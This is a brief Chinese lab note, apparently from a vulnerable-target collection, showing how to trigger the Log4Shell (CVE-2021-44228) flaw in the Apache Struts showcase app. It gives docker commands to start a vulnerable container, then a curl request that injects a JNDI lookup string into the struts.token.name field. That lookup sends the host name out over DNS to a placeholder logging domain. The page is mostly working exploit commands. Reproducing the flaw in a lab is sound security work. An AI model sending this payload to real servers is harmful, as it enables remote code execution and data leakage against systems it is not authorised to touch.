


# Struts官方用例showcase触发log4j RCE

## Struts showcase

路径：struts/apps/showcase



## 一键拉起showcase环境

```
docker pull vultarget/log4j2-struts2-showcase:2.14.1

docker run --name struts2-showcase -d -p 8360:8080 vultarget/log4j2-struts2-showcase:2.14.1
```


## 成功带出docker中的hostname信息

```
curl -vso /dev/null http://127.0.0.1:8360/struts2-showcase/token/transfer4.action -d struts.token.name='${jndi:dns://${hostName}.yourdnslogaddr}'
```



## 参考链接

https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis